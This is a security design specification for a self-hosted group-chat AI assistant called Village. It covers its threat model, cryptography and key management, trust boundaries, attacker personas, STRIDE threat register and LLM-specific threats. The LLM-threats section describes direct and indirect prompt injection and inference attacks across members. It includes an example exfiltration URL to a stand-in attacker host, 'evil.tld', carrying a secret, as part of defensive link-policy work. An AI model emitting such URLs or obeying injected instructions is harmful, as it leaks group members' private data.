


# 08 — Security, Privacy & Trust

> **Status:** elaborates `01-architecture.md` §9. Normative for threat model, controls mapping, cryptography and key-management design, dashboard hardening requirements, egress/SSRF, secrets, provider exposure, outbound content safety, plugin/MCP isolation *requirements*, supply chain, privacy posture, legal posture, vulnerability handling and incident response.
> **Does not own** (referenced instead): physical schema, encryption-at-rest *implementation*, backup archive layout (`02`); IFC semantics, declassification, disclosure guard, consent, injection-defense policy (`03`); memory controls (`04`); prompts, turn engine, model adapters, tool confirmation mechanics (`05`); adapters, renderers, identity linking (`06`); ICS/digests (`07`); HTTP API, auth UX, dashboard, CLI, wizard (`09`); plugin SDK/MCP protocol (`10`); test infrastructure, red-team harness, CI wiring (`11`); Docker/npm/release mechanics (`12`); docs site, naming (`13`).
> **Facts verified 2026-11-01** (sources in §References). Re-verify anything older than 3 months at implementation time (`docs/plan/README.md` convention).
> **Task numbering:** this document uses `T80`–`T99` inside each milestone (e.g. `M1-T82`) so IDs never collide with other specs; `14-milestones.md` consolidates.

---

## 1. Purpose & scope

### 1.1 Security goals
| ID | Goal |
|---|---|
| G1 | **Discretion.** No member learns another member's private information through Village, except via owner-approved typed constraints (`03`). |
| G2 | **Authority.** No state changes beyond the requester's authority or the constitution's pre-authorized `SystemAuthority` (I3). |
| G3 | **Confidentiality at rest.** DB, blobs and backups are unreadable without keys, including copies on cloud drives and stolen SD cards. |
| G4 | **Release integrity.** Users can verify that what they run was built from this repository by its CI. |
| G5 | **Minimal, disclosed third-party exposure.** Model providers and platforms receive only what each feature needs, and members are told. |
| G6 | **Availability and cost.** No single member, outsider, bot or document can exhaust the budget or wedge a group. |
| G7 | **Honest trust.** Every residual trust (host, platform, provider) is disclosed in product and docs, in plain language. |

### 1.2 Non-goals (explicit, documented to users)
- Protecting members from the **host**: the host has the machine and the keys (spine §9, boundary 5). We mitigate with transparency only (§3.16.8).
- Protecting content from the **chat platform** it was sent through (Telegram, Discord, Slack can read non-E2EE chats).
- Sandboxing **actively malicious plugins**. Node's own docs say its permission model is a seat belt for trusted code, not a defense against malicious code. Plugin isolation limits blast radius and accidents (§3.14).
- Relying on **model compliance** for any security property. *The model is never a security boundary.* Every property above holds even if the model is fully hijacked; prompts only reduce how often controls have to fire.

---

## 2. Key decisions

| # | Decision | Choice | Rationale |
|---|---|---|---|
| SD-01 | Crypto libraries | **Node `crypto` for everything except streaming AEAD**; **libsodium (`libsodium-wrappers`) only for `crypto_secretstream_xchacha20poly1305`**. No other crypto deps, no custom constructions, no JWT libraries | Node covers HKDF, HMAC, AES-GCM, scrypt, CSPRNG and constant-time compare. Only a vetted chunked AEAD (truncation and reorder safe) is missing; hand-rolling chunked GCM would be custom crypto. The WASM build has no install scripts or native build (§3.7.1) |
| SD-02 | Key hierarchy | **Master key (MK) and recovery key (RK) are unlock keys only.** They wrap a per-generation **root data key (RDK)** in keyring *slots* (LUKS-style). Purpose keys come from HKDF over the RDK | Rotating MK is a cheap rewrap with no DB rekey. The recovery key restores on a new machine. Rotating data keys is a separate, explicit operation |
| SD-03 | Default MK storage | `data/keys/master.key` (0600, dir 0700). Options: OS keychain (`@napi-rs/keyring`, optional dep), `COMVIVO_MASTER_KEY_FILE` (Docker/systemd-creds), `COMVIVO_MASTER_KEY` env, passphrase | Zero-friction default that matches the spine; stronger modes for each platform (§3.7.3) |
| SD-04 | Recovery key | **Mandatory at init**, printed once, verified by retyping two groups, **never stored on the host** | The only way to survive losing the keyfile; it also enables off-host restore |
| SD-05 | SQLCipher mode | `cipher=sqlcipher`, `legacy=4`, **raw 256-bit key** from HKDF, `temp_store=MEMORY`; SQLite3MultipleCiphers ≥ 2.4.0 (WAL rekey) | SQLCipher-compatible as the spine requires (hosts can open it with standard tools). A raw key skips PBKDF2 because the key is already uniform |
| SD-06 | Blob encryption | Per-blob random DEK, content in secretstream (64 KiB chunks), DEK wrapped with AES-256-GCM by the blob KEK; **blob address = HMAC-SHA256(blob-id key, plaintext)**, not raw SHA-256 | Crypto-shredding by deleting the DEK. A keyed address prevents confirmation-of-file attacks |
| SD-07 | Backup envelope | `VBK1` (files `*.vbak`): authenticated header with the per-backup DEK wrapped in slots for the **derived backup key** (backup KEK from the RDK) **and** the **recovery key**, plus an **optional passphrase slot** (01 §14 A10); keyring snapshot; then a secretstream body | Any backup restores with the recovery key alone; headers can be rewrapped without rewriting bodies |
| SD-08 | Tokens | Opaque 256-bit random secrets with **typed prefixes**; only SHA-256 digests stored; HMAC-signed magic links; server-side sessions | Prefixes make redaction and secret scanning easy. A DB read never yields a usable credential |
| SD-09 | Dashboard login | **Pairing is the default**: the browser shows a code, the member sends it to the bot in a DM and approves. **Magic links** (token in the URL fragment, exchanged by POST, single use, 10-minute expiry, bound to person + instance) are allowed **only on loopback, or over HTTPS when the host explicitly opts in** (`dashboard.auth.magicLinks: https`). **Home Assistant ingress users are linked once via a bot code and are never trusted from headers alone.** Sensitive actions need step-up in the member's DM (01 §9, §14 A9; implementation `09` §3.9) | A link sitting on Telegram's servers (or forwarded) must not be enough to log in remotely unless the host accepts that risk for an HTTPS deployment. Resists "approve fatigue" |
| SD-10 | Exposure | Bind `127.0.0.1` by default; non-loopback requires TLS (direct or trusted proxy) **or** explicit `allowInsecureLan`; **Host-header allowlist always on** | Blocks LAN sniffing and DNS rebinding against localhost |
| SD-11 | Browser hardening | Strict nonce CSP + `strict-dynamic` + Trusted Types, no CORS, SameSite=Strict, CSRF token + Origin check, JSON-only mutations | Defense in depth for an SPA that holds admin power |
| SD-12 | Egress / SSRF | One `safeFetch` (`@comvivo/shared/net`): IANA special-purpose deny list via `net.BlockList`, DNS pinning, manual redirects, size/time caps. Lint-enforced as the only path for URLs derived from input | One audited choke point for ICS, MCP remote, plugin net, web search |
| SD-13 | Outbound links | **URL provenance policy**: a URL may appear in output only if it is an instance link, appeared verbatim in audience-visible input, or is allowlisted. **Link previews off**, no remote images | Closes markdown-image and unfurl exfiltration |
| SD-14 | Mentions | Mentions only from AST nodes; platform mass-mention tokens neutralized; ≤ 5 member mentions per message | No `@everyone` storms via injection |
| SD-15 | Provider exposure | Per-route egress manifest shown in the wizard; **Hybrid** (`sensitiveRoutesLocal`) and **Local-only** (`localOnly`, fail-closed) modes | Honest, configurable minimization |
| SD-16 | Plugin isolation | One child process per plugin with Node permission model (fs scoped; child_process/worker/addons/wasi denied; **net denied on Node ≥ 25**), minimal env, IPC broker, host approval with hash pinning | Seat belt plus blast-radius control; honest about limits |
| SD-17 | MCP client | Host-config-only servers; tool-definition **hash pinning** (rug-pull defense); outputs untrusted; argument egress checked against IFC; sampling off | MCP spec: tool descriptions are untrusted; consent required |
| SD-18 | Supply chain | pnpm ≥ 11: explicit `minimumReleaseAge: 4320` (3 days, strict), `trustPolicy: no-downgrade`, explicit `allowBuilds`, `blockExoticSubdeps`; Renovate with the same delay; actions pinned by SHA | Shai-Hulud-class worms and the chalk/debug compromise were caught within hours to days |
| SD-19 | Release integrity | npm **trusted publishing** (OIDC, automatic provenance, tokens disallowed); **cosign keyless** image signatures; GitHub attestations (`actions/attest`: SLSA provenance + SBOM); CycloneDX SBOMs: `pnpm sbom` per published npm package and Syft (`anchore/sbom-action`) per image digest (mechanics `12` §3.10.4); **SLSA Build L3 by 1.0** | No long-lived publish credentials exist to steal |
| SD-20 | Audience = platform roster | The audience of a platform conversation is **everyone in the platform chat**. Unknown participants mean member-only data is withheld | Lurkers and ex-members still in the chat must not see group memory |
| SD-21 | Host vs admin | Instance-level power (providers, egress allowlists, plugins, keys, debug logging, retention floor) is **host-only** (config/CLI, or host role + step-up). Group admins never get it | Keeps a "curious admin" from aiming SSRF, plugins or logs at members |
| SD-22 | Telemetry | **None.** Opt-in update check fetches a static JSON (which may carry a security-advisory banner). Diagnostics only via `village doctor --bundle` (redacted, user-attached) | Spine ADR-017 |
| SD-23 | Vulnerability handling | GitHub Private Vulnerability Reporting, CVSS 4.0, Critical patch ≤ 7 days, advisories + CVE via the GitHub CNA | Standard, low-overhead CVD |
| SD-24 | Children | Child DMs **off until a guardian enables them** with a provider-policy notice; Local route recommended; guardians never get verbatim access to child DMs | Provider minors policies; dignity of teens |
| SD-25 | Transparency of diagnostics | If `COMVIVO_DEBUG_CONTENT=1`, Village **announces it in every bound group** at startup | Hosts can still patch code, but defaults must not allow silent content capture |

---

## 3. Detailed design

### 3.1 Assets

| ID | Asset | Where it lives | Need | Primary protections |
|---|---|---|---|---|
| A1 | Member-private memories and items | DB (`label.readers` ⊂ group) | Highest | IFC (`03`), SQLCipher, scoped export |
| A2 | DM content | DB `messages`; provider logs; platform | Highest | IFC, 90-day retention, provider minimization (§3.11) |
| A3 | Group memory and domain state | DB | Group-confidential; integrity (wrong reminders hurt) | I4, policy, audit chain |
| A4 | Attachments (voice, images, PDFs) | `data/blobs/` | Same as source message | Per-blob DEK (§3.7.10) |
| A5 | Platform credentials (bot tokens, Slack app token, Matrix token and crypto store, signal-cli account) | env/`_FILE`; vault; adapter dirs | Critical (impersonating Village) | §3.10 |
| A6 | Provider API keys | env/`_FILE` | Critical (wallet, data at provider) | §3.10, budgets |
| A7 | MK, RK, passphrase, keyring | keyfile/keychain/env; paper | Critical (decrypts everything) | §3.7 |
| A8 | Purpose keys (DB, blob KEK, backup KEK, token MAC, blob-id, vault) | Memory only | Critical | Never persisted unwrapped |
| A9 | Sessions, pairing codes, magic links, PATs, ICS tokens, claim token | Browsers, DMs, member agents; DB holds digests only | High | §3.7.12 |
| A10 | Backups | `data/backups/` and wherever the host copies them | Same as DB | `VBK1` (§3.7.11) |
| A11 | Exports | Downloaded files | Plaintext by design | Authenticated HTTP download only, never sent through chat |
| A12 | Traces, audit, logs | DB, log files | Metadata; dangerous if content leaks in | Manifest-only traces, redaction (§3.10) |
| A13 | Constitution and config | DB, `comvivo.yaml` | Integrity (authority) | Amendments (`03`), audit |
| A14 | Host machine and LAN | — | Integrity | Non-root, no inbound ports, SSRF guard, plugin isolation |
| A15 | Release artifacts and project accounts (GitHub, npm, GHCR, domain) | Registries | Integrity for every user | §3.15 |
| A16 | Vault (runtime-acquired credentials, e.g. MCP OAuth tokens) | `data/keys/vault.enc` | Critical | AES-256-GCM under the vault key |

### 3.2 Trust boundaries (refines spine §9)

| ID | Boundary | Trust rule |
|---|---|---|
| B1 | Platform ↔ adapter | TLS to official APIs. **Platform identity (`platformUserId`) is the root of member identity.** Display names are data, never identity. |
| B2 | Member ↔ engine | A member is a principal **only for their own authority**. Their content is untrusted with respect to every other member. |
| B3 | External content ↔ engine | Emails, forwards, documents, link previews, ICS, web search, MCP/plugin outputs: **data, never instructions, never authority** (`untrusted=true`, propagated by `join`). |
| B4 | Engine ↔ model provider | Context leaves the host unless the route is local. **Model output is untrusted too**: tool calls are proposals that must pass policy, and text must pass the guard. |
| B5 | Engine ↔ plugin/MCP processes | IPC only. Plugin code is semi-trusted (host-approved). Outputs are untrusted. No keys or DB handles cross. |
| B6 | Browser ↔ HTTP API | Authenticated sessions. Host, Origin and CSRF checked. XSS is contained by CSP. |
| B7 | Member's personal agent ↔ Village MCP server | A PAT carries **that member's** authority and audience, scoped and revocable. |
| B8 | Host OS ↔ Village process | The host user is fully trusted. **Other local users and processes are not**: file modes, loopback services, Host checks. |
| B9 | Supply chain ↔ build/release | Dependencies, CI and registries are untrusted until verified (§3.15). |



### 3.3 Attacker personas

| Persona | Goals | Assumed capabilities | Key controls | Residual risk |
|---|---|---|---|---|
| **Malicious member** | Learn others' private info. Act beyond role. Poison memory. Harass via the bot. Drain budget | Arbitrary messages in group and DM, injections, forwards, files, votes, rapid probing | I1–I5, inference controls (§3.6.4), S10, per-member rate limits, mention caps | Inference through owner-approved constraints in very small groups (§3.6.4 IA-3) |
| **Curious admin** (not host) | Read DMs and private memories, see who said what, widen privacy via the constitution, export everything | Admin role, dashboard admin views, `traces.read.group`, `members.manage` | IFC-filtered APIs; trace redaction to counts; prospective-only privacy changes with notice (S13); host-only instance settings (SD-21); IFC-filtered group export | Social pressure inside the group (out of scope) |
| **Compromised member platform account** | Read the victim's private memories, mint a dashboard session or PAT for persistence, act as the victim | Everything the victim can do in chat | Login and PAT notifications to all linked identities; session/PAT list with revoke-all; step-up for exports; linking needs an existing identity; host lockout via `village sessions revoke --person <id>` plus `village mcp token revoke --person <id>` (CLI `09` §3.11.3) | Full access to the victim's own data while undetected (the platform account *is* the identity) |
| **Ex-member** | Keep access, see post-departure data, retaliate | Old sessions, PATs, ICS URLs; may still sit in the platform chat | All credentials revoked on `left`/removal; ICS tokens revoked; SD-20 roster rule; their own export/delete rights kept for 30 days via DM | Whatever the platform still shows them |
| **External sender** (email, forwards, shared docs) | Inject instructions to exfiltrate, plant fake events or phishing links, spam | Content only, no identity in the group | B3 labeling, S10, untrusted extraction → `proposed`, sender allowlist + DMARC (`06`/`07`), link provenance display, volume caps | Persuasive misinformation shown with provenance |
| **Malicious link or document** | Parser RCE, resource exhaustion, hidden-text injection | Crafted PDF/image/audio/ICS/HTML | Sandboxed media workers (§3.13), pdf.js `isEvalSupported:false`, pixel/page/duration caps, RRULE expansion caps | Unknown 0-days in parsers (contained to a no-key, no-net process) |
| **Malicious plugin / MCP server** | Steal keys/DB/tokens, read other groups, persist, poison tools, rug-pull | Code execution in its own process (plugin) or controlled responses (MCP) | §3.14: process isolation, permission flags, minimal env, IPC broker, egress deny, hash pinning, outputs untrusted | A determined malicious plugin may escape Node's seat belt; it is host-approved code |
| **Compromised dependency** | Code execution at install or runtime in the main process | Malicious version of a transitive npm package | §3.15: release-age delay, `allowBuilds`, trust policy, lockfile review, minimal core deps, OSV, SBOM | A malicious runtime dependency in the main process means full compromise. Minimizing deps is the real control |
| **LAN / web attacker vs dashboard** | Take over a session, CSRF, DNS rebinding, sniffing | Same network; can make the host's browser visit a page | Loopback default, Host allowlist, TLS for non-loopback, SameSite=Strict, CSRF, CSP, rate limits | `allowInsecureLan` hosts on hostile LANs (warned) |
| **Stolen device or backup** | Read data offline | Disk image, SD card, backup file in a cloud drive | SQLCipher, blob AEAD, `VBK1`; key-storage modes; FDE guidance | Keyfile on the same stolen disk defeats at-rest encryption (disclosed; §3.7.3) |
| **Model provider exposure** | (Exposure, not an active attacker) retention, training, breach, compelled disclosure | Sees every prompt for cloud routes | §3.11 minimization, local embeddings, Hybrid/Local-only modes, disclosure | Whatever the provider's policy allows |
| **Chat platform itself** | Read content, impersonate users, comply with legal demands | Operates the transport and identity | Disclosure; pairing login (a seen code is useless without the browser cookie); recommend Matrix E2EE or Signal for sensitive groups | Platform can impersonate any member (root of identity) |
| **Host** (trusted, disclosed) | n/a | Root, keys, code | Transparency: host named in intro, debug-mode announcement (SD-25), honest docs | Total |

### 3.4 Security invariants (complement I1–I7; each has a test in §9)

| ID | Invariant |
|---|---|
| S1 | Unwrapped key material exists only in process memory. It is never written to disk, logs, traces, DB or IPC. |
| S2 | Credentials never appear in the DB, `comvivo.yaml`, logs, traces, exports or error messages. Canary secrets prove it. |
| S3 | Outbound HTTP to any URL derived from member, external, model, plugin or admin input goes **only** through `safeFetch`. |
| S4 | **No model call** happens for DMs from persons who are not members of any bound group, for unbound chats, or for platform bots (pre-identity gate; template replies only). Unknown senders *inside* a bound group follow the spine's consent flow. |
| S5 | Every URL in outbound content satisfies the provenance policy (§3.6.3). Link previews are suppressed unless explicitly allowed. |
| S6 | No platform mass-mention token survives rendering. Member mentions come only from AST mention nodes. |
| S7 | The HTTP server never serves a request whose `Host` is not allowlisted, or a mutation whose `Origin` is not same-origin. |
| S8 | In non-loopback modes, a session is issued only to the browser holding the pending-login secret for that login. **Sole exception:** a magic link redeemed while the host has explicitly enabled HTTPS magic links (`dashboard.auth.magicLinks: https`, 01 §14 A9); that residual risk (a forwarded or platform-observed link) is shown in the config docs and by doctor. |
| S9 | Plugin, MCP and media child processes never receive keys, DB handles, other plugins' secrets or the parent's environment. |
| S10 | A write of risk ≥ medium in a turn whose context contains untrusted content requires requester confirmation (spine `ActionRequest.provenance.untrustedInContext`). |
| S11 | Audience of a platform conversation ⊇ all its platform participants. If the roster is unknown or unmatched, data with `readers` narrower than that conversation is withheld. |
| S12 | With `privacy.localOnly`, no connection is attempted to any non-allowlisted host other than chat platforms. |
| S13 | Privacy-weakening changes (retention up, label defaults widened, role changes reducing a member's privacy, new plugin data access) are **prospective only**, announced to all members, and effective after a notice delay. |
| S14 | Content-debug mode is announced in every bound group. |

### 3.5 STRIDE threat register with controls mapping

Owner = doc · package that implements the control. Test IDs are defined in §9 (`sec.*` owned here; `prop.*`/`redteam.*` co-owned with `03`/`11`).

| ID | STRIDE | Component | Threat | Controls | Owner | Test |
|---|---|---|---|---|---|---|
| T-S01 | S | Adapters | Impersonation via display name ("Mom") or forwarded "from" header | Identity by `platformUserId` only; names fenced as data; forwards `untrusted` | 06 · channels/*; 03 | `sec.identity.display-name` |
| T-S02 | S/D | Ingestion | Strangers DM the public bot or add it to their group | S4 gate; a chat binds to a group **only** by redeeming a single-use claim code (30-minute TTL) created by the host or an admin; unclaimed chats persist nothing (01 §14 A27, `06` §3.20.1); doc: BotFather `/setjoingroups` off, Discord "Public Bot" off | 06 · engine/ingest | `sec.gate.unknown-dm`, `sec.gate.unbound-group` |
| T-S03 | S/E | Instance claim | The first stranger to DM a fresh bot becomes host | One-time **host claim code** printed to the console and shown by `village init` (formats in §3.7.12; flow in `09` §3.9.4): single use, 30-minute TTL, burned after 10 failed attempts; the 128-bit link token is used in deep links, the 40-bit typed code only where attempts are limited | 09 · apps/server; 06 | `sec.claim.*` |
| T-S04 | S | Identity linking | Attacker links their platform account to the victim's Person | Link requires confirmation from an already-verified identity of that Person; 8-char codes, 10 min, single use | 06 | `sec.link.confirm-required` |
| T-S05 | S | Dashboard login | Magic link seen by the platform or forwarded; login phishing | SD-09 pairing; fragment-borne tokens; GET interstitial; 10-min TTL; login notifications | 09 · server/http/auth; 08 | `sec.http.login.*`, `dast.zap.*` |
| T-S06 | S | Button callbacks | Forged `callback_data` / `custom_id` / action values (client-controlled) | Opaque server-side IDs; payload bound to intended member and turn; presser authorization re-checked | 06 · channel-sdk; 05 | `sec.callbacks.forged` |
| T-S07 | S | MCP server | Stolen or guessed PAT; DNS rebinding to a local endpoint | 256-bit PATs, digest storage, scopes, expiry, Origin validation, rate limits | 10 · mcp; 08 | `sec.mcp.pat.*`, `sec.mcp.origin` |
| T-T01 | T | Storage | Offline modification of DB/blobs/backups | SQLCipher page HMAC; blob AEAD + AAD; `VBK1` header bound into body AAD | 02 · storage/crypto | `sec.crypto.tamper.*` |
| T-T02 | T/R | Audit | Admin erases evidence | Append-only hash chain; no admin delete API; host can (disclosed) | 02, 03 | `prop.audit.chain` |
| T-T03 | T | Memory | False facts/decisions planted via injection or forwards | Untrusted-derived → `proposed`; provenance; supersede-not-delete; correction flow | 04, 03 | `redteam.poisoning` |
| T-T04 | T/E | Constitution | Retroactive privacy weakening by amendment | S13; role changes that reduce privacy need the affected member's consent | 03 · core/policy | `prop.ifc.no-retro-declass` |
| T-T05 | T | Release | Malicious package or image published | §3.15 trusted publishing, provenance, cosign, SLSA L3 | 12, 08 | `sec.release.verify` |
| T-R01 | R | Turns/tools | "I never asked for that" | `AuditEvent` with requester principal + platform message id; `TurnTrace` | 02, 05 | `sec.audit.attribution` |
| T-I01 | I | Context | Read-up: another member's private item enters context | I1; context builder is the only search path; canaries | 03, 05 | `prop.ifc.I1`, `redteam.discretion` |
| T-I02 | I | Egress | Private info rendered into a group reply | I5 guard; never stream group output before guard; no send-then-edit redaction | 03, 05 | `redteam.discretion` |
| T-I03 | I | Audience | Lurker or ex-member in the platform chat sees group memory | S11 roster reconciliation (`getChatMemberCount`, member lists) | 03, 06 | `sec.audience.roster` |
| T-I04 | I | Dashboard | Admin views reveal private items or their existence | IFC-filtered API; traces show only "N items not visible to you", no owners or kinds | 09, 03 | `sec.http.ifc-views` |
| T-I05 | I | Logs/traces | Content or secrets in logs or traces | §3.10 redaction; manifest-only traces; canary secrets | 05, 11, 08 · shared/logger | `sec.logs.canary` |
| T-I06 | I | Backups | Backup in a cloud drive is read | `VBK1` | 02, 08 | `sec.backup.*` |
| T-I07 | I | Provider | Provider receives more than needed | §3.11 per-route manifest; Hybrid/Local-only | 05 · models; 08 | `sec.egress.manifest`, `sec.egress.local-only` |
| T-I08 | I | Export | Group export includes private items | Export = IFC query with audience {requester} | 04, 09 | `prop.export.ifc` |
| T-I09 | I | Cross-group | g1 data in g2 context | I4 | 03 | `prop.ifc.I4` |
| T-I10 | I | Retrieval | FTS/vector hits leak through counts, snippets or timing | Filter by label before ranking or snippeting; partitioned indexes | 04 | `prop.retrieval.ifc` |
| T-I11 | I | Blobs | Confirmation-of-file via content hash | Keyed blob address (SD-06) | 02 | `sec.crypto.blob-id` |
| T-I12 | I | ICS feeds | Feed URL leak exposes events; calendar vendors fetch them | Per-member 256-bit tokens; feed content = events readable by that member and flagged shareable; revocable; separate listener (§3.8.11); disclosure that Google/Apple store subscribed feeds | 07, 09 | `sec.ics.scope` |
| T-D01 | D | Ingestion | Message floods, giant messages, bot-to-bot loops | Size caps, per-member turn limits, coalescing; platform bots never trigger `respond` | 05, 06 | `sec.flood.*`, `sec.gate.bots` |
| T-D02 | D | Wallet | Budget exhaustion | §3.6.7 | 05, 07 | `redteam.wallet` |
| T-D03 | D | Media/ICS | Decompression bombs, 5,000-page PDFs, `FREQ=SECONDLY` RRULEs | §3.13 caps, sandboxed workers, timeouts | 06, 07, 08 | `fuzz.media.*`, `sec.ics.rrule` |
| T-D04 | D | HTTP | Login spam, brute force | §3.8.8 | 09 | `sec.http.ratelimit` |
| T-D05 | D | Plugins | Hung or crashing plugin wedges a group | Timeouts, memory caps, circuit breaker, restart backoff | 10 | `sec.plugin.dos` |
| T-E01 | E | Tools | Confused deputy: tool runs beyond requester authority | I3; `ToolContext` scoped to group and actor; policy before power | 03, 05 | `redteam.authority` |
| T-E02 | E | Injection | Untrusted content triggers writes | S10; `SystemAuthority` limited to pre-authorized actions | 03, 05 | `redteam.injection` |
| T-E03 | E | Governance | Self-promotion via proposals or social engineering | Ratification rules, quorum, confirmations | 03 | `redteam.authority.governance` |
| T-E04 | E | Dashboard | XSS steals admin power | Strict CSP + Trusted Types; no raw HTML; sanitized markdown; lint bans `dangerouslySetInnerHTML` | 09, 08 | `sec.http.csp`, `dast.zap.*` |
| T-E05 | E | Dashboard | CSRF / DNS rebinding from a malicious site | S7; SameSite=Strict; CSRF token; JSON-only mutations | 09, 08 | `sec.http.rebinding`, `sec.http.csrf` |
| T-E06 | E | Fetchers | SSRF to LAN, router or cloud metadata | §3.9 `safeFetch` | 08 · shared/net | `sec.ssrf.*`, `fuzz.ssrf.classify` |
| T-E07 | E | Plugins | Plugin reads keys, DB or env | §3.14 | 10, 08 | `sec.plugin.escape` |
| T-E08 | E | Supply chain | Malicious dependency at install or runtime | §3.15 | 12, 08 | `sec.supply.policy` |
| T-E09 | E | Container | Breakout or privilege escalation | Non-root, read-only rootfs, `cap_drop: [ALL]`, `no-new-privileges` | 12 | `sec.image.policy` |
| T-E10 | E | Parsers | Eval-class parser exploit (pdf.js CVE-2024-4367) | `isEvalSupported:false`, patched pins, sandbox | 06, 08 | `fuzz.pdf`, `sec.supply.version-gates` |

### 3.6 LLM- and agent-specific threats

#### 3.6.1 Strategy: break the "lethal trifecta" structurally
An agent that combines **private data**, **untrusted content** and **external communication** can be made to exfiltrate ([Willison, 2025](https://simonwillison.net/2025/Jun/16/the-lethal-trifecta/)). Village removes each leg *per audience* instead of hoping the model resists:
1. **Private data.** The writer model's context contains only data the audience may read (I1). Others' private data reaches it only as closed-schema typed constraints from the declassifier, which is a variant of the dual-LLM / quarantined-output pattern ([CaMeL, arXiv:2503.18813](https://arxiv.org/abs/2503.18813); [Design Patterns for Securing LLM Agents, arXiv:2506.08837](https://arxiv.org/abs/2506.08837)). Leaking context *to the audience* is therefore not a leak.
2. **External communication.** Village never messages outsiders (00 §6.2). Links, images and unfurls are neutralized (§3.6.3). The only external sinks are gated tools (MCP, web search), each subject to IFC egress checks and S10.
3. **Untrusted content** is labeled, fenced as data, propagates `untrusted` through `join`, and **never confers authority**.

#### 3.6.2 Prompt injection (direct and indirect)
- **Direct** (a member instructs Village to break rules): defeated structurally by I1/I3. The charter (`05`) gives uniform, non-confirming refusals.
- **Indirect** (emails, forwards, PDFs, images, link previews, ICS, MCP/plugin outputs, memories derived from them): fenced, datamarked blocks (`05` prompt layer); `untrusted` label propagation; extraction from untrusted sources yields `proposed` memories only (`04`); S10 confirmation; and **a tool input sourced from untrusted text must show that text in the confirmation** (`05` confirmation mechanics).
- Injection-defense *policy* belongs to `03`. This doc requires the red-team coverage in §3.20.

#### 3.6.3 Exfiltration via links, images and unfurls (outbound URL policy)
Attack: injected text makes the model emit `https://evil.tld/p?d=<secret>`. A platform unfurler (Discord/Slack/Telegram link preview) or a rendered image fetches it, and the data reaches the attacker with no click.

Every URL in a draft is extracted from the RichText AST (link nodes **and** bare-URL text) and classified:

| Class | Definition | Rendering |
|---|---|---|
| `instance` | Generated by templates (dashboard, ICS links) | Allowed; preview off |
| `echo` | Byte-identical (after WHATWG normalization) to a URL in input readable by the whole audience (this conversation's retained messages, audience-readable items, tool results) | Allowed. If the source is `untrusted`, rendered with provenance ("link from an email by school@…") and never as a recommendation |
| `allowlisted` | Domain in `outbound.allowedLinkDomains` (host-configured) | Allowed; query string preserved only if it appears in an `echo` source, otherwise stripped |
| `novel` | Anything else | **Defanged**: replaced with `[link removed]`, recorded in `guardResults`, counted in metrics |

Additional rules:
- No remote-image AST node exists. Images are only blob attachments.
- `javascript:`, `data:`, `file:` and non-http(s) schemes are always removed.
- Punycode and confusable hosts in `echo` URLs are displayed as their ASCII form.
- **Link previews are disabled on every Village message by default** (Telegram `link_preview_options.is_disabled`, Discord `SUPPRESS_EMBEDS` flag, Slack `unfurl_links:false, unfurl_media:false`). Matrix and Signal clients generate previews client-side, so the provenance policy is the control there.
- The dashboard markdown renderer strips images, renders links with `rel="noopener noreferrer nofollow"`, and CSP `img-src 'self' data: blob:` blocks remote loads.

Owner: deterministic URL rule in the disclosure guard (`03`, `engine/guard`); render-time flags in `06`.

#### 3.6.4 Inference attacks across members
`03` owns the semantics. These are **required controls**, each with a red-team scenario family (`redteam.inference.*`).

| ID | Attack | Required control |
|---|---|---|
| IA-1 | **Existence oracle** ("Do you know anything about Bob's health?") | Uniform answer regardless of whether private matches exist; the guard judge checks for existence-revealing phrasing |
| IA-2 | **Constraint differencing**: repeated scheduling probes triangulate Bob's private appointment | Constraints coarsened (time granularity, no reasons), unattributed by default; per-requester budget of distinct constraint-derived disclosures per subject per day; probing pattern logged and visible to the subject |
| IA-3 | **Elimination in small groups** ("someone can't do Friday" with 3 members) | For groups ≤ 3 members, or when the remaining candidate set is ≤ 1, constraints only select options silently ("Saturday works best") with no explanation of exclusions |
| IA-4 | **Behavioral side channels**: refusal style, latency, disposition change when private data exists | The guard always runs; refusal templates do not vary with private matches; no "I can't share that" when nothing matched either |
| IA-5 | **Proactive leakage** (interjection mentions a private conflict) | Proactivity candidates are built only from audience-readable data plus constraints (`07`) |
